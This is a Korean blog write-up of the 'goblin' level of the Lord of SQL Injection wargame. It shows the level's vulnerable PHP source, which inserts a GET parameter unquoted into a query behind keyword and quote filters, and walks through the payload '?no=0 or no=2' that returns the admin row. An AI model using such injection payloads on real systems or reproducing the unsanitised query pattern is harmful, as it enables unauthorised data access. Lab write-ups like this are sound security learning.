 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - goblin 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다음 문제는 `goblin` 문제이다.  

이번에는 `password column` 대신에 `no column`이 생겼다.  

<!--more-->

코드는 다음과 같다.  

```php
--------------------------------------------------------------------------------
query : select id from prob_goblin where id='guest' and no=
--------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

`no column`이 새로 생겼으며, `id`가 `guest`로 고정되어 있다.  

또한 이번에는 `'(싱글쿼터)`를 입력할 수 없다.  

하지만 문제를 풀기 위해서는 `id`가 `admin`인 행을 추출해야 한다.  

`where` 절에서 `id='guest'`와 `no=??`의 두 조건은 `and`로 연결되어 있다.  

따라서 이를 이용 해 문제를 풀 수 있을 것 같다.  

데이터베이스에 아래와 같이 저장되어 있다고 가정 해 보자.  

| no  | id |
| :------------ | :-----------: |
| 0 | guest |
| 1 | admin |

이 경우, 만약 `no` 자리에 `0`이 있다면 결과적으로 `where id='guest' and no={$_GET[no]}`의 where 절은 참이 되므로 첫 번째 행이 추출 될 것이다.  

하지만 만약 `no`자리에 `0이 아닌 값`이 들어간다면 결과적으로 조건절은 `거짓`이 되어 아무런 결과 값을 가져오지 않는다.  

이 때, 만약 뒤에 아래와 같이 `or`로 묶인 조건이 추가적으로 있을 경우 뒤의 조건문을 실행하게 된다.  

```
where id='guest' and no=1 or no=1
```

위의 where 절에서 `id='guest'`이고 `no=1`인 행이 없으므로, `and`로 묶여 있는 조건은 `거짓`이 된다.  

때문에 `or`뒤의 조건을 실행하게 되어 `no=1`인 행을 추출하게 된다.  

따라서 기존에 있던 조건 뒤에 추가적으로 조건을 삽입할 수 있다면 `id`가 `guest가 아닌` 행을 추출할 수 있다.  

먼저 문제를 풀기 위해 `guest`의 `no`가 무엇인지 확인하기 위해 `no`에 `0`, `1`을 입력 해 보았다.  

```php
---------------------------------------------------------------------------------
query : select id from prob_goblin where id='guest' and no=1
---------------------------------------------------------------------------------

Hello guest
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

그 결과 `no`가 `1`일 때 `Hello guest`가 출력되는 것을 확인할 수 있다.  

따라서 `guest`의 `no`는 `1`임을 알 수 있으며 추측할 수 있는 데이터베이스의 데이터는 다음과 같다.  

| no  | id |
| :------------ | :-----------: |
| 1 | guest |
| 1이 아닌 값 | admin |

즉, `id`가 `admin`인 행의 `no`는 `1이 아닌 값`으로 되어 있을 것이다.  

위에서 설명했다시피 다음과 같이 입력 해 `and`로 묶인 조건을 거짓으로 만드는 쿼리를 구성하면 `id가 guest가 아닌 행`을 추출할 수 있다.  

```
?no=0 or no=0
```

따라서 `id`가 `admin`인 행을 추출하기 위해 `or` 뒤의 `no` 자리에 `1`이 아닌 값을 차례로 입력 해 보면 언젠가는 내가 원하는 행을 추출할 수 있을 것이다.  

`0`부터 입력해 본 결과, `no`가 `2`일 때 문제를 풀 수 있었다.  

```php
---------------------------------------------------------------------------------------------
query : select id from prob_goblin where id='guest' and no=0 or no=2
---------------------------------------------------------------------------------------------

Hello admin
GOBLIN Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

`GOBLIN Clear!!`
